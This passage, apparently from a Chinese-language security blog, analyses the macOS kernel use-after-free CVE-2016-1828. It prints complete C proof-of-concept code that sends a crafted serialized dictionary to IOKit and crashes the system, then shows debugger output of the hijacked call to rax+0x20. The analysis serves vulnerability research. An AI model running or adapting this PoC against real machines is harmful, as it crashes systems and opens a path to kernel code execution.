 [![](https://p5.ssl.qhimg.com/t01434a9216e6fdded0.png)](https://p5.ssl.qhimg.com/t01434a9216e6fdded0.png)



## 0x004 UAF: CVE-2016-1828

编译运行这段poc，系统会直接蹦掉

```
#include &lt;IOKit/IOKitLib.h&gt;
#include &lt;IOKit/iokitmig.h&gt;
#include &lt;mach/mach.h&gt;
#include &lt;stdio.h&gt;

int main()
`{`
    uint32_t data[] = `{`
        0x000000d3,                             /*  magic               */
        0x81000010,                             /*  0: OSDictionary     */
        0x08000002, 0x00000061,                 /*  1: key "a"          */
        0x04000020, 0x00000000, 0x00000000,     /*  2: 1[2: OSNumber]   */
        0x08000002, 0x00000062,                 /*  3: key "b"          */
        0x04000020, 0x00000000, 0x00000000,     /*  4: 2[4: OSNumber]   */
        0x0c000001,                             /*  5: key "a"          */
        0x0b000001,                             /*  6: true; heap freelist: 1[2:]   */
        0x0c000003,                             /*  7: key "b"                      */
        0x0b000001,                             /*  8: true; heap freelist: 2[4:] 1[2:]     */
        0x0c000001,                             /*  9: key "a"          */
        0x0a000028,                             /*  10: 2[10,4: OSData] =&gt; 1[2: contents]   */
        0x00000000, 0x00000000,                 /*  vtable ptr          */
        0x00000000, 0x00000000, 0x00000000, 0x00000000,
        0x00000000, 0x00000000, 0x00000000, 0x00000000,
        0x0c000001,                             /*  11: key "b"         */
        0x8c000002,                             /*  12: 1[2: contents]-&gt;retain()    */
    `}`;
    mach_port_t master_port, iterator;
    kern_return_t kr = IOMasterPort(MACH_PORT_NULL, &amp;master_port);
    if(kr != KERN_SUCCESS)`{`
        return 1;
    `}`

    kr = io_service_get_matching_services_bin(master_port, (char *)data, sizeof(data), &amp;iterator);
`}`
```

调试器attach上去，发现执行到了一个错误的地址`0x20`

[![](https://p4.ssl.qhimg.com/t010d6320ccca66a3d2.png)](https://p4.ssl.qhimg.com/t010d6320ccca66a3d2.png)

查看汇编，该处call了一个`rax+0x20`的地址
